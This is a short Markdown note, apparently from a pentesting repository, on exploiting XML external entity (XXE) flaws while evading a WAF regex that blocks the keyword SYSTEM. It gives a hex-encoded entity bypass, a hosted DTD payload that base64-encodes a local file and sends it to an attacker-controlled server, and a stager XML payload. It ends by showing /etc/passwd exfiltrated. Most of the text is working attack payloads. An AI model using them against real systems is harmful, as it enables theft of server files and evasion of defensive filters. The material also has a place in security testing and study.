 # XXE-Notes

### WAF bypass

A usefull technique to bypass WAF forbiden words like SYSTEM is using html entities, the technique here can be used to avoid using blacklisted words.

This is also valid for a regex in this case we will bypass the following regex `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im`

This regex is stoping us to create a external entity with the following structure: 

`<!ENTITY file SYSTEM "file:///path/to/file">` 
To avoid this we are going to use html entities to encode `<!ENTITY % dtd SYSTEM "http://ourserver.com/bypass.dtd" >` so we can call our dtd in a server we control.

The html entity equivalent is `&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;`

The idea here is to use this entity to bypass the SYSTEM word to call our controlled dtd. This way we only have to bypass the WAF/REGEX one time and we can craft any entity we need on our dtd.

#### Server payload

We have to serve our dtd like the following:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://ourserver.com/bypass.xml?%data;'>">
%abt;
```
We can modify this payload as we need as this will not be blocked by the WAF or regex on the victim.

#### Stager payload
The following payload will call our external dtd bypassing the SYSTEM blacklisted word:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]><data><env>&exfil;</env></data>
```

And all we need to do is sending the payload and wait for the exfil in our server
![Bypass ](img/exfil.png)
And we can see is the base64 of the /etc/passwd